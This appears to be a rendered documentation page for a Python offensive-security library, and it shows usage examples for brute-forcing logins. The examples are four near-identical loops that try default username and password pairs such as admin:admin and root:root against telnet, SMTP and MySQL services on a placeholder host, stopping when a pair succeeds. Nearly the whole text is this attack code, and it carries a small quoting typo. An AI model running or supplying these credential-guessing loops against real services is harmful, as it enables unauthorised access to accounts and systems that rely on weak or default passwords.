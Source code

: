 
<br><h3>TELNET:</h3>

<br>here we have 2 different ways to logins to a telnet server:

<br><h4>telnet1:</h4>(using pexpect module with "spawn" instead of "pexssh", which is more cleaver) 

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.telnet1("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'


<br><h4>telnet2:</h4>(using telnetlib module) 

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.telnet2("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'


<br><h3>SMTP:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.smtp("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'

<br><h3>MYSQL:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.mysql("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'
